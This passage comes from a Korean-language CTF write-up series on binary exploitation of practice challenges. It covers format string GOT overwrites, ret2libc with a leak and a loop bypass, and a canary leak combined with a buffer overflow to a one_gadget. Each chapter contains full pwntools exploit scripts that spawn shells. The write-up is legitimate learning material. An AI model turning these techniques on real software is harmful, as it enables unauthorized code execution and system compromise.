> | 문법 | 의미 |
> | --- | --- |
> | `%n` | **다음 순서**의 인자를 꺼내 사용한다 (앞에서 `%`들을 몇 개 썼는지에 따라 위치가 밀린다) |
> | `%6$n` | **무조건 6번째** 인자를 집어서 사용한다 (순서 상관없이) |

##### FSB (Format String Bug)

| 포맷 | 능력 |
| --- | --- |
| `%p` `%x` `%s` | 메모리 **읽기** (leak) |
| **`%n`** | 메모리 **쓰기** (임의 주소에 값) |

```c
void open_emergency_medicine(){  // -> 이걸 실행시키는게 목표.
        char buf[30];
        int fd = open("flag" , O_RDONLY);
        read(fd,buf,20);
        printf("%s\n",buf);
        close(fd);
}
```

win함수(`open_emergency_medicne`)가 존재한다. %n으로 `puts@got`을 win 함수 주소로 덮어쓰기 해서, 다음 puts 호출이 flag 함수를 실행시키도록 만들면 이 문제를 풀 수 있다.

---

#### 3. 필요한 정보 확인

##### 3-1. FSB Offset



```c
AAAAAAAA.  <- 그냥 출력된 문자
0x7ffe3af7d670   <- %p #1 (rsi)
0x9f             <- %p #2 (rdx)
0x7fa82c4a88b2   <- %p #3 (rcx)
0x1999...        <- %p #4 (r8)
(nil)            <- %p #5 (r9)
0x101d40000      <- %p #6 (스택)
0x4012ea         <- %p #7
0x4141414141414141  ← %p #8  0x41이므로 "AAAAAAAA"가 여기에 위치한다.
0x252e70...      <- %p #9 (.%p 부분)
```

8번째 %p에서 0x4141… 이 나왔으므로 입력을 하면 입력 buf가 printf의 8번째 인자 자리에 온다는 걸 알 수 있다. 이를 통해, fsb offset이 8임을 알 수 있다.

이제, `%8$n`을 쓰면 printf는 **“8번째 인자(buf)를 주소로 보고 거기에 써라”** 가 된다. 즉, buf 맨 앞에 **덮을 주소(`puts@got`)**를 넣어두면

```
buf = [ puts@got 8바이트 ][ %(값)c ][ %8$n ]
         8번째 인자 자리에 옴     "8번째가 가리키는 주소에 써라"
```

##### 3-2. Win 함수 주소



**win: 0x401256**

##### 3-3. puts@got 주소



**puts@got: 0x404018**

---

##### 4. Exploit

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

OFFSET   = 8
PUTS_GOT = 0x404018
TARGET   = 0x401256   # open_emergency_medicine

p = process('./fsb')

### case 1(search medicine) 선택 -> printf(buf)로 FSB
p.sendlineafter(b'> ', b'1')

### puts@got 에 open_emergency_medicine 주소 써넣기
### pwntools의 fmtstr_payload 이용
payload = fmtstr_payload(OFFSET, {PUTS_GOT: TARGET})
p.sendline(payload)

### 이후 puts가 호출되는 시점에 open_emergency_medicine 실행 -> flag 출력
p.interactive()
```

SIGSEGV가 뜨며 하지만 flag가 안읽어진다…

##### 4-1. Exploit 수정

처음엔 위처럼 **`puts@got`를 win 함수로 덮는** 방향으로 짰다. payload 쓰기도 성공했는데 **flag가 한 글자도 안 나오고 SIGSEGV**가 떴다(아래 부록 참고). 결론만 말하자면 **덮을 대상을 `printf@got`로 바꿔야** 했다.

```python
from pwn import *
context.arch = 'amd64'

printf_got = 0x404028 # 덮을 자리 (printf GOT)
target     = 0x401256 # open_emergency_medicine

p = process('./fsb')
p.sendlineafter(b'> ', b'1')                      # case 1 선택 -> printf(buf)로 FSB
payload = fmtstr_payload(8, {printf_got: target}) # printf@got <- win 함수
p.sendline(payload)

p.interactive()   # menu()의 printf("> ") 호출 시점에 win 함수 실행 -> flag 출력
```

---

#### 5. 클리어



---

#### 6. 부록

##### `puts@got` 덮었더니 무한 재귀 → SIGSEGV

디버그 로그를 보니 payload 쓰기(puts@got = 0x401256)는 **성공**했는데도 flag가 안 나오고 터졌다. 

 원인은 **win 함수의 디스어셈블리**에 있었다.

```
open_emergency_medicine:
  ...
  call   read@plt        ; flag 읽기
  lea    -0x30(%rbp),%rax ; buf
  mov    %rax,%rdi
  call   puts@plt         ; flag를 puts로 출력...
```

win 함수가 flag를 **`printf("%s")`가 아니라 `puts(buf)`로 출력**하고 있었다. 그런데 나는 **그 `puts`를 win 함수로 덮어버렸다.** 그래서:

```
menu의 puts → win 함수 실행
                -> flag 읽음
                -> puts(flag)       <- puts = win 함수
                    -> win 함수 또 실행
                        -> puts(flag) → win 함수 → ...  (무한 재귀)
```

**무한 재귀 → 스택 폭발 → SIGSEGV.** flag가 한 글자도 안 나온 이유도 이거였다. `puts(flag)`가 출력을 안 하고 자기 자신(win 함수)으로 되돌아가버리니까.

##### `printf@got`로 교체 후 해결

win 함수가 쓰는 건 **open, read, puts, close**  즉, **printf는 안 쓴다.** 반대로 **menu()는 맨 끝에 `printf("> ")`를 호출**한다(`0x40138f`). 그래서 **`printf@got`를 덮으면**:

```
menu() 실행
  -> puts×3 (메뉴 텍스트 정상 출력, puts는 안 덮었으므로)
  -> printf("> ") 호출 -> printf@got = win 함수
      -> flag 읽음
     -> puts(flag) → 진짜 puts (안 덮음) -> flag 출력 ✅
```

---

[↑ 챕터 목록](#chapter-index)


## Ch. 9

> ret2libc( loop 우회)
> 

---

#### 1. 대상 분석

##### 1-1. 문제 코드 확인

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int loop = 0;

void init(){
        setvbuf(stdin, 0, 2, 0);
        setvbuf(stdout, 0, 2, 0);
}

void gadget() { // gadget 존재
    asm("pop %rdi; ret");
    asm("pop %rsi; pop %r15; ret");
    asm("pop %rdx; ret");
}

int main(void)
{
    init();
    char buf[0x30];

    printf("Hello, Sir\n");
    printf("This laboratory is currently closed.\n");
    printf("Please leave a message, and I will forward it to the person in charge of the laboratory.\n");

    if (loop)
    {
        puts("Goobye, Sir");
        exit(-1);
    }
    // 첫번째로 main에 가면, if(0)은 거짓이므로 exit(-1)이 안되지만 두번째로 main에 가면
    // if(1)은 참이므로, exit(-1)이 실행되며 종료된다.

    loop = 1; 
    read(0, buf, 0x70); // 여기서 오버플로우 가능.
    return 0;
}
```

##### 1-2. 보호 기법 확인



```c
FuLL RELRO → GOT 불가능
No canary → Canary leak, 우회 필요 없음.
NX enabled → 쉘코드 주입 실행 못함. 스택에서 실행 불가.
No PIE → 하드 코딩 가능
```

---

#### 2. Exploit 아이디어

GOT도 못 덮고 셸코드도 못 넣으니, 남은 방법은 **이미 메모리에 올라온 libc 함수(`system`)를 ROP로 호출**하는 **ret2libc** 이다.

##### 2-1. ret2libc

NX 때문에 "내 셸코드를 주입하고 실행"은 안 되지만, **libc에는 이미 `system`도 있고 `"/bin/sh"` 문자열도 있다.** 리턴 주소를 조작해서 `system("/bin/sh")`가 호출되도록 스택을 짜면, 새 코드를 주입하지 않고도 셸을 딴다.

- `system`의 1번째 인자(rdi)에 `"/bin/sh"` 주소를 넣어야 한다.
- 64비트에서 1번째 인자는 **rdi 레지스터**로 전달 → `pop rdi ; ret` 가젯으로 세팅.
- 이 문제에는 gadget이란 함수가 존재하고 gadget 함수 내에  **`pop rdi ; ret` 등이 존재한다.**

> **gadget 함수**
> 
> 
> ```c
> void gadget() {    asm("pop %rdi; ret");          
> // 1번째 인자 세팅용    
> asm("pop %rsi; pop %r15; ret");
> // 2번째 인자    
> asm("pop %rdx; ret");          
> // 3번째 인자
> }
> ```
> 

##### 2-2. libc 주소 leak (ASLR 우회)

ret2libc의 전제는 **`system`의 주소를 아는 것**인데, libc는 **ASLR** 때문에 실행할 때마다 로드 주소가 바뀐다. 그래서 먼저 **libc 함수 하나의 실제 주소를 유출시키고(leak)**, 이를 이용해 libc 베이스를 역산해야 한다.

방법은 **`puts(puts@got)`**

- `puts@got`에는 **puts의 실제(런타임) 주소**가 들어있다.
- 그걸 `puts`의 인자로 넘겨 출력시키면 → **libc 상의 puts 주소가 화면에 찍힌다.**
- `libc_base = 출력된 puts 주소 - libc.sym['puts']` 로 libc 베이스 계산.

libc 베이스를 구하면 `system`, `"/bin/sh"` 주소도 전부 계산 가능.

> 
> 
> 
> No PIE는 **바이너리(main, gadget, plt 등)** 주소만 고정시킨다. **libc는 별개의 라이브러리**라서 여전히 ASLR로 매번 옮겨진다. 그래서 바이너리 주소는 하드코딩할 수 있지만, libc 주소는 leak으로 알아내야 한다.
> 

##### 2-3. `loop` 문제 우회

ret2libc는 보통 **2단계**로 진행한다.

1. leak으로 libc 주소를 알아낸 뒤
2. 다시 입력을 받아 `system` 체인을 넣는다. 

위와 같이 진행하려면 **입력을 두 번 받아야** 하는데, 이 문제는 그걸 막는 장치가 있다.

```c
int loop = 0;           // 전역변수
if (loop) { 
puts("Goobye, Sir"); exit(-1); 
}
loop = 1;
read(0, buf, 0x70);
```

- 전역변수 `loop`은 main을 나가도 값이 유지된다.
- 1번째 main: `loop=0` → 통과 → `loop=1`로 바뀜 → read.
- 2번째 main 진입: `loop=1` → `if(loop)` 참 → **exit(-1)로 종료.**

즉 **main 처음으로 되돌아가는 전형적인 2단계 패턴이 막혀 있다.** 
우회법은 **`loop` 체크를 건너뛴 지점으로 직접 복귀**하는 것

```
401233:  if(loop) 체크 ────┐
40123b:  je 401256         │  ← loop==0이면 통과
40123d:  puts("Goobye")    │  ← loop!=0이면 종료
401251:  exit              │
401256:  loop=1; read(...) ┘  ← loop 체크 건너띈 지점(0x401256)으로 바로 복귀
```

→ 1단계 체인 끝에서 main이 아니라 **`0x401256`(read 셋업 지점)으로 복귀**시키면, `if(loop)` 검사를 통째로 건너뛰고 **read를 또 받는다.** No PIE라 이 주소도 고정이라 하드코딩 가능하다.

##### 2-4. 2단계 구조 정리

```
[1단계] BOF -> pop rdi; puts@got -> puts@plt (libc puts 주소 leak)
            -> 0x401256 복귀 (loop 체크 건너뛰고 read 재진입)
[2단계] BOF -> pop rdi; "/bin/sh" -> system  -> 셸 획득
```

여기서 두 가지 디테일이 필요하다.

1.  **saved rbp 안정화 (fake_rbp)**

main이 `return 0` 할 때 `leave`가 실행되며 **rbp가 우리가 덮은 saved rbp 값이 된다.** 그냥 'A'로 두면 rbp가 `0x4141...`이 되어, read 재진입 때 `buf = rbp-0x30`이 엉뚱한 주소가 되어 터진다. 그래서 saved rbp 자리에 **쓰기 가능한 고정 주소(bss 영역 내 주소)**를 넣어 프레임을 안정시킨다. (No PIE라 bss 주소도 고정)

1. **정렬용 `ret` 가젯**

`system` 내부의 `movaps` 명령은 **스택이 16바이트 정렬**돼 있어야 동작한다. 체인 길이에 따라 8바이트 어긋나면 SIGSEGV가 나므로, `ret` 가젯 하나를 끼워 정렬을 맞춘다.

> 1단게 페이로드의 saved rbp 자리에 fake_rbp를 넣어, main이 leave 할 때 rbp가 fake_rbp가 되도록 만들면 offset을 재사용할 수 있다.(사실상 이름만 변경)
> 

---

#### 3. 필요한 정보 확인

##### 3-1. Offset 계산

```c
objdump -d ./pivot | grep -A30 '<main>:'
```



read 호출 직전에 lea 확인. 0x30이 buf와 rbp 사이의 거리.

- RET(리턴 주소) = rbp + 8
- offset = 48(0x30) + 8 = 56

##### 3-2 .gadget 주소 확인

**바이너리 안의 gadget함수 가젯 확인**

```c
ROPgadget --binary ./pivot | grep 'pop rdi ; ret'
```



- **gadget: 0x4011e5**

**정렬용 ret 가젯 확인**

```c
ROPgadget --binary ./pivot | grep ': ret$'
```



- **정렬용 gadget: 0x40101a**

##### 3-3. puts 관련 주소 확인

```c
objdump -d ./바이너리 | grep '<puts@plt>'   # puts@plt (호출할 함수)
objdump -R ./바이너리 | grep puts           # puts@got (leak할 대상)
```



- **puts@plt: 0x401070**
- **puts@got: 0x403fd0**

##### 3-4. read 호출 지점 확인

```c
objdump -d ./pivot | grep -A30 '<main>:'
```



```c
401233:  mov  loop,%eax       ┐
401239:  test %eax,%eax       │ ← if(loop) 체크
40123b:  je   401256          ┘
40123d:  ... puts("Goobye")   ┐ ← loop!=0이면 여기로 (죽는 길)
40124c:  mov  $0xffffffff,%edi │
401251:  call exit@plt        ┘
401256:  movl $0x1, loop      ┐ ←  je가 점프하는 "통과" 지점
401260:  lea  -0x30(%rbp),%rax│   (loop=1 세팅 후)
...                           │   read 셋업
401271:  call read@plt        ┘
```

- **read 복귀 지점: 0x401256**

##### 3-5. main 주소 확인

```c
nm ./pivot | grep 'main'
```



- **main: 0x4011f0**

---

#### 4. Exploit

```c
from pwn import *
context.arch = 'amd64'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
p = process('./pivot')

### 주소 
off       = 0x38
POP_RDI   = 0x4011e5
RET       = 0x40101a
PUTS_PLT  = 0x401070
PUTS_GOT  = 0x403fd0
MAIN_READ = 0x401256
FAKE_RBP  = 0x404800

### 1단계: libc leak 
### puts(puts@got) -> 실제 puts 주소 출력 -> read 지점으로 복귀
stage1  = b'A'*0x30                 # buf 채우기
stage1 += p64(FAKE_RBP)             # saved rbp (프레임 안정화)
stage1 += p64(POP_RDI) + p64(PUTS_GOT)
stage1 += p64(PUTS_PLT)             # puts(puts@got)
stage1 += p64(MAIN_READ)            # leak 후 read 지점 복귀 (loop 우회)

p.recvuntil(b'laboratory.\n')       # 인사말 3줄 보내기
p.send(stage1)

leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.sym['puts']
log.info("puts leak = %#x", leak)
log.info("libc base = %#x", libc.address)
assert libc.address & 0xfff == 0    # 페이지 정렬 확인 (base가 맞으면 끝 3자리 000)

### 2단계: system("/bin/sh")
binsh  = next(libc.search(b'/bin/sh\x00'))
system = libc.sym['system']

stage2  = b'A'*0x30
stage2 += p64(FAKE_RBP)             # saved rbp (또 안정화)
stage2 += p64(RET)                  # 16바이트 정렬용
stage2 += p64(POP_RDI) + p64(binsh)
stage2 += p64(system)               # system("/bin/sh")
p.send(stage2)

p.interactive()
```

---

#### 5. Clear



---

[↑ 챕터 목록](#chapter-index)


## Ch. 10

> 
> 

---

#### 1. 대상 분석

##### 1-1. 문제 코드 확인

**전체 코드**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
/*
    Full mitigation
    Stack is unsafe & fprintf is Substitutional way of print string
    But you have writable place
*/
int all_time;
int OTP_flag = 0;
int count;
int mode;
FILE *access_log;

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

void gadget() {
    asm("pop %rdi; ret");
    asm("pop %rsi; pop %r15; ret");
    asm("pop %rdx; ret");
}
char print_checkpass() {
    puts("Enter your password");
    printf("Password : ");
    return 0;
}

char check_passwd(char *passwd, int mode) {
    print_checkpass();
    int acss_ok = -1;
    access_log = fopen("access.log", "a");

    read(0, passwd, 100);
    // passwd[strlen(passwd)] = '\x00';
    switch(mode) {
    case 0:
        fprintf(access_log, "Lord Of BOF : ");
        fprintf(access_log, passwd);
        break;
    case 2:
        // Doctor
        fprintf(access_log, "   Doctor   : ");
        fprintf(access_log, passwd);
        // printf(passwd);
        break;
    default:
        fprintf(access_log, "Undefined User, Error\n");
        // break;
        return 0;
    }

    if (!strncmp(passwd, "9a9f3a5a6230124a1770cc20097db3713454343a", 40)) {
        // lordofbof sha1
        acss_ok = 0;
        fprintf(access_log, " -> Correct!");
        // return 0;
    } else if(!strncmp(passwd, "1f0160076c9f42a157f0a8f0dcc68e02ff69045b", 40)) {
        // doctor sha1
        acss_ok = 2;
        fprintf(access_log, " -> Correct!");
        // return 1;
    } else {
        acss_ok = -1;
        fprintf(access_log, " -> Incorrect!");
        // return 3;
    }

    fprintf(access_log, "\n");
    fclose(access_log);
    return acss_ok;
}

char check_id(char *str_adr) {
    printf("Your ID : ");
    read(0, str_adr, 0x20);
    if (!strncmp(str_adr, "Lord Of Buffer overflow", 23)) {
        return 0;
    } else if(!strncmp(str_adr, "Zombie", 6)) {
        return 1;
    } else if(!strncmp(str_adr, "Doctor", 6)) {
        return 2;
    } else {
        return 3;
    }
}

int main(int argc, char const *argv[]) {
    initialize();
    // stack high
    char welcome[28] = "For vaccine, Enter One Time Passcode";
    char id_number[64];
    char password[0x40];
    count = 0;
    int chk_pw = -1;
    printf(welcome);
    puts("");
    printf("Enter ID Number");
    puts("");
    do {
        int chk = check_id(id_number);
        // only leak
        switch(chk) {
        case 0:
            // LOB
            printf("Lord Of BOF! ");
            chk_pw = check_passwd(password, 0);
            break;
        case 1:
            // Zombie
            printf("Zombie! ");
            puts("You Don't need Vaccine~");

            access_log = fopen("access.log", "a");
            fprintf(access_log, "Zombie : Denied");
            fclose(access_log);
            break;
        case 2:
            // Doctor
            printf("Doctor! ");
            puts("You can get Vaccine if you pwn");
            chk_pw = check_passwd(password, 2);
            break;
        case 3:
            printf(id_number);
            printf("!Invalid!\nTry Again\n");
            chk_pw = 0;

            access_log = fopen("access.log", "a");
            fprintf(access_log, "Invalid ID\n");
            fclose(access_log);
            break;
        default:
            puts(id_number);
            printf("Error! Enter Your ID Again!");
            chk_pw = 0;

            access_log = fopen("access.log", "a");
            fprintf(access_log, "ID Input Error\n");
            fclose(access_log);
            break;
        }

        if(chk_pw == -1) {
            puts(password);
        } else if(chk_pw == 0) {
            chk_pw = 0;
        } else {
            goto get_vaccine;
        }
        count++;
        if (count == 3) {
            puts("BOOM!! Find your ID");
            return 0;
        }
    } while (1);

get_vaccine:
    puts("No Vaccine");

    //     printf("adsf");
    return 0;
}
```

**취약점 코드**

**① 읽기(leak) — `printf(id_number)` (case 3)**

c

```c
case 3:    printf(id_number);   // ★ id_number = 내 입력, stdout으로 출력 → %p leak 보임!
```

check_id가 `read(0, str_adr, 0x20)`로 ID를 받는데, 아무 ID나(= 알려진 거 말고) 넣으면 case 3으로 빠져서 **내 입력을 `printf`로 stdout에 출력**해. → **여기에 `%p`를 넣어 leak.** (단 0x20=32바이트라 포맷 문자열 길이가 짧은 게 제약)

**② 쓰기(write) — `fprintf(access_log, passwd)` (case 0/2)**

c

```c
case 0:    fprintf(access_log, passwd);  // ★ passwd = 내 입력, %n으로 임의 쓰기
```

`read(0, passwd, 100)`로 100바이트까지 받으니 **긴 페이로드 가능.** 출력은 **파일(access.log)로 가지만, `%n`의 메모리 쓰기는 출력 스트림과 무관**하게 동작해. → **임의 주소 쓰기 프리미티브.**

> **왜 "출력이 파일로 가도" %n이 되나**
> 
> 
> `%p`/`%s`는 **출력(leak)**이라 어디로 출력되는지가 중요해(파일로 가면 안 보임). 근데 `%n`은 **메모리에 쓰는 것**이라 출력 대상이 파일이든 화면이든 상관없이 **포인터가 가리키는 주소에 값을 써.** 그래서 leak은 stdout으로 나오는 ①번으로, write는 파일로 나가는 ②번으로 역할 분담.
> 

##### 1-2. 보호기법 확인


All Green 이다.

아래와 같이, 문제코드에서 힌트가 주어졌다.

```c
Full mitigation
Stack is unsafe & fprintf is Substitutional way of print string
But you have writable place

대충, 스택 불안정하고 fprintf가 출력 대체 수단이고, 쓰기 가능한 공간이 존재한다고 
알려주고 있다.
```

#### 2. Exploit 아이디어

Full RELRO라 GOT를 못 덮으니, **쓰기 타겟은 "스택의 리턴 주소"**가 유력해:

```
[1] printf(id_number) FSB로 leak:
      - PIE 코드 베이스 (바이너리 주소 복원)
      - libc 베이스 (system, /bin/sh 계산)
      - 스택 주소 (리턴 주소 위치 계산용)
      - (필요시) 카나리
[2] fprintf(passwd) FSB의 %n으로:
      - 스택의 리턴 주소 자리에 ROP 체인(ret2libc) 써넣기
[3] 함수 리턴 시 → system("/bin/sh")
```

`count == 3`이라 **루프를 3번 돌 수 있어서**, leak하고 write할 여유(라운드)가 있어.

> “writable place”는 전역변수들(`all_time`, `OTP_flag`, `count`, `mode`, `access_log`)이 사는 **.bss**를 가리킬 수도 있어. 긴 `%n` 쓰기를 할 때 임시 작업 공간으로 쓰거나, fmtstr가 중간값 저장에 활용할 수 있는 여지야.
> 

```c
from pwn import *
import re
context.arch = 'amd64'

p = process('./final')
ONE_GADGET = 0xebc18        # 안 되면 교체

### ---- Round 1: leak (case 3) ----
p.sendafter(b'Your ID : ', b'%6$p.%31$p.%33$p\n')
data = p.recvuntil(b'!Invalid!')
argv_leak, canary, libc_leak = [int(h,16) for h in re.findall(rb'0x[0-9a-f]+', data)[:3]]
libc_base = libc_leak - 0x29d90
main_rbp  = argv_leak - 0x118
og        = libc_base + ONE_GADGET
FAKE_RBP  = main_rbp
log.info("canary=%#x libc=%#x main_rbp=%#x og=%#x", canary, libc_base, main_rbp, og)

### ---- Round 2: BOF (case 2 Doctor) → main 리턴 덮기 ----
p.sendafter(b'Your ID : ', b'Doctor\n')
bof = b'A'*0x48 + p64(canary) + p64(FAKE_RBP) + p64(og)
p.sendafter(b'Password : ', bof)

### ---- Round 3: count==3 유도 → main return → og ----
p.sendafter(b'Your ID : ', b'A\n')
p.interactive()
```


---


> FSB로 카나리·libc·PIE leak → read 오버플로우(BOF)로 main 리턴 덮기 → one_gadget으로 셸
> 

---

#### 0. 두 개의 취약점을 먼저 이해하기

이 문제는 버그가 **두 군데**에 있고, 역할이 다르다. 이걸 먼저 잡고 가야 전체가 보인다.

##### 버그 1: FSB (Format String Bug) — case 3의 `printf(id_number)`

```c
case 3:
    printf(id_number);   // id_number = 내 입력이 포맷 문자열로 그대로 들어감
```

이전의 문제에 존재한 `printf(buf)`처럼 **사용자 입력이 포맷 문자열 자리**에 들어간다. `%p`를 넣으면 스택 값을 꺼내 출력(**leak**)할 수 있다. 출력이 **stdout으로 나와서** leak 결과를 눈으로 볼 수 있다. → **leak 전용**으로 사용.

##### 버그 2: BOF (Buffer Overflow) — check_passwd의 `read`

```c
char password[0x40];        // 64바이트 버퍼
read(0, passwd, 100);       // 100바이트를 읽음 -> 36바이트 오버플로우
```

버퍼는 64바이트인데 `read`가 100바이트를 읽는다. **36바이트가 넘쳐서** 스택의 카나리·saved rbp·리턴 주소까지 덮을 수 있다. → **쓰기(리턴 주소 덮기) 전용**으로 사용.

> 원래 이 문제엔 `fprintf(access_log, passwd)`라는 **또 다른 FSB**도 존재한다. 하지만 이건 출력이 **파일로** 가서 `%p` leak이 안 보이고, `%n` 쓰기는 glibc positional 로 실패했다(부록 참고). 그래서 leak은 1번(printf, stdout), write는 2번(read 오버플로우)으로 역할을 나눠 풀었다.
> 

---

#### 1. 대상 분석

##### 1-1. 코드 분석

```c
int loop = 0;               // (이 문제엔 사실상 영향 없음)
int count;                  // 전역 시도 횟수

void gadget() {             // pop rdi/rsi/rdx 가젯 (여기선 안 씀)
    asm("pop %rdi; ret"); ...
}

char check_passwd(char *passwd, int mode) {
    read(0, passwd, 100);                 // BOF (passwd는 main의 password[0x40])
    switch(mode){ case 2: fprintf(access_log, passwd); ... }  // (또 다른 FSB, 파일로 감)
    if(!strncmp(passwd, "...doctor hash...", 40)) acss_ok = 2;
    else acss_ok = -1;                    // 우리 payload는 해시 불일치 → -1
    fclose(access_log);
    return acss_ok;
}

char check_id(char *str_adr) {
    read(0, str_adr, 0x20);               // ID 입력 (32바이트)
    if(!strncmp(..., "Lord Of Buffer overflow",23)) return 0;
    else if(!strncmp(..., "Zombie",6)) return 1;
    else if(!strncmp(..., "Doctor",6)) return 2;
    else return 3;                        // 인식 안 되는 ID → case 3 (FSB leak)
}

int main() {
    char password[0x40];                  // BOF 대상 버퍼
    do {
        int chk = check_id(id_number);
        switch(chk){
            case 2: chk_pw = check_passwd(password, 2); break;  // Doctor → BOF
            case 3: printf(id_number); ... chk_pw = 0; break;   // 아무 ID → FSB leak
        }
        if(chk_pw == -1) puts(password);
        count++;
        if(count == 3){ puts("BOOM!! Find your ID"); return 0; }  // 3번째에 main 리턴
    } while(1);
}
```

1. **case 3 도달법** — "Lord Of Buffer overflow"/"Zombie"/"Doctor"가 아닌 **아무 ID**를 넣으면 `else → return 3` → `printf(id_number)` FSB.
2. **case 2(Doctor) 도달법** — ID에 "Doctor" → `check_passwd` → `read(100)` BOF.
3. **main 리턴 시점** — `count == 3`이면 `return 0`. 즉 **3라운드째에 main이 리턴**한다. (여기에 익스를 건다)

##### 1-2. 보호기법 확인


```
Full RELRO  → GOT Overwrite 불가 (쓰기 타겟은 RET. 리턴 주소로)
Canary      → 카나리를 leak하면 우회 가능
NX          → 셸코드 주입 불가 → ret2libc / one_gadget
PIE         → 코드 주소도 랜덤 → 전부 leak해야 함
```

All Green. 하드코딩할 수 있는 게 아무것도 없어서, **필요한 주소를 전부 런타임에 leak**해야 한다.

---

#### 2. Exploit 아이디어

##### 2-1. 전체 그림 (3번 시도)

```
[1] case 3: printf(id_number) FSB로 leak
          -> 카나리, libc 베이스, 스택 주소(argv) 확보
[2] case 2(Doctor): read(100) BOF로
          -> main의 카나리 복원 + saved rbp 조작 + 리턴 주소를 one_gadget으로 덮기
[3] case 3: count==3 유도 -> main이 return -> one_gadget 실행 -> 셸 획득.
```

##### 2-2. ret2libc / one_gadget

